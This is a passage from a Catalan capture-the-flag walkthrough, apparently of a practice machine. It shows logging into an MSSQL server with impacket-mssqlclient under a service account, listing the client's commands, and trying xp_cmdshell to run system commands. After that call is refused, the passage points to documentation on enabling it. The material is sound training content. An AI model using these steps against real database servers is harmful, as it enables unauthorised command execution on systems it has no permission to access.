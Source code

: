 La base de dades com hem vist del escaneig inicial és MsSQL i necessitem un client per connectar-nos-hi. Si estàs utilitzant _Kali Linux_ ja tens un executable en el sistema per connectar-te a aquest tipus de bases de dades: `impacket-mssclient`.

```bash
$ impacket-mssclient sql_svc@$ip
```

Donarà un error alhora d'autentificar, llegint la documentació trobem que la comanda compta amb una _flag_ per utilitzar un altre tipus d'autentificació.

```bash
$ impacket-mssqlclient sql_svc@$ip -windows-auth
```

Si tot ha sortit bé ara tindrem un _prompt_ tal que `SQL>` esperant que li escrivim. Cridem l'ajuda per veure que podem fer.

```
SQL> help
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

La comanda `xp_cmdshell` te molt bona pinta no ho negaré. Però al executar-la per veure si funciona ens retorna el següent:

```
SQL> xp_cmdshell whoami
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Amb la informació de l'error podem fer una buscada ràpida a google sobre com fer-ho funcionar. Si busquem `sp_configure enable xp_cmdshell` el primer resultat https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15, ens dona la solució:

![](imgs/fixxpcmdshell.png)
